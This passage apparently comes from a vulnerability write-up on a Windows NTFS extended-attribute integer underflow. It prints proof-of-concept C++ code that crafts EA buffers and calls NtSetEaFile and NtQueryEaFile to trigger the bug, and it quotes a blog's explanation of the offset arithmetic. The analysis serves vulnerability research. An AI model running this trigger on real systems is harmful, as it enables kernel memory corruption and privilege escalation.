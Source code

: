 ```cpp
HANDLE                      file = INVALID_HANDLE_VALUE;
IO_STATUS_BLOCK             x = { 0 };
FILE_FULL_EA_INFORMATION    *fetched_data = zalloc(0x300);
FILE_GET_EA_INFORMATION     *selector = zalloc(0x300);
FILE_GET_EA_INFORMATION     *selector2;
FILE_FULL_EA_INFORMATION    *eadata1 = zalloc(0x300);
FILE_FULL_EA_INFORMATION    *eadata2;

file = CreateFileA("c:\\users\\chenl\\desktop\\ABC.txt",
    GENERIC_READ | GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL);

selector->EaNameLength = (UCHAR)strlen(EANAME1);
memcpy(selector->EaName, EANAME1, selector->EaNameLength);
selector->NextEntryOffset = (ULONG)0xc;

selector2 = (PFILE_GET_EA_INFORMATION)((UINT64)selector + (UINT64)(selector->NextEntryOffset));
selector2->EaNameLength = (UCHAR)strlen(EANAME2);
memcpy(selector2->EaName, EANAME2, selector2->EaNameLength);
selector2->NextEntryOffset = (ULONG)0x0;

eadata1->Flags = (UCHAR)0x0;
eadata1->EaNameLength = (UCHAR)strlen(EANAME1);
eadata1->EaValueLength = (USHORT)0x9d;
memcpy(eadata1->EaName, EANAME1, eadata1->EaNameLength);
memset(eadata1->EaName + eadata1->EaNameLength + 0x1, 'C', eadata1->EaValueLength);
eadata1->NextEntryOffset = (ULONG)((eadata1->EaNameLength + eadata1->EaValueLength + 0x3 + 0x9) & (~0x3));

eadata2 = (PFILE_FULL_EA_INFORMATION)((UINT64)eadata1 + (UINT64)(eadata1->NextEntryOffset));
eadata2->NextEntryOffset = (ULONG)0x0;
eadata2->Flags = (UCHAR)0x0;
eadata2->EaNameLength = (UCHAR)strlen(EANAME2);
eadata2->EaValueLength = (USHORT)eadata2_chunk_sz;
memcpy(eadata2->EaName, EANAME2, eadata2->EaNameLength);
memcpy(eadata2->EaName + eadata2->EaNameLength + 0x1, eadata2_data, eadata2_data_sz);

_NtSetEaFile(file, &x, eadata1, 0x300);

NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, selector, 0x300, NULL, TRUE);
```

Thus, we also will look at the following excerpt from Y3A's blogpost: 

> The way of calculating NextEntryOffset is taken from the decompiled `NtfsQueryEaUserEaList` above. 0x9 bytes for the size of all the field members excluding actual data, adding 0x3 to ensure the buffer will not shrink when aligning it to 0x4 bytes with a bitwise AND. If we want an integer underflow, `out_buf_length` must be smaller than padding while dealing with the second `Ea` list. The smallest `out_buf_length` we can achieve is 0x1, which is when the size we specified is 1 byte larger than our first `Ea` list. The largest padding size we can achieve is 0x3. Using the values in the code above, a `namelength` of 0x3 and a `valuelength` of 0x9d makes a total size of 0xa0, which is 4-bytes aligned. Adding 0x9 to it gives us 0xa9, which is one byte off. This means upon adding 0x3 as the final calculation, our padding will be exactly 0x3 bytes.
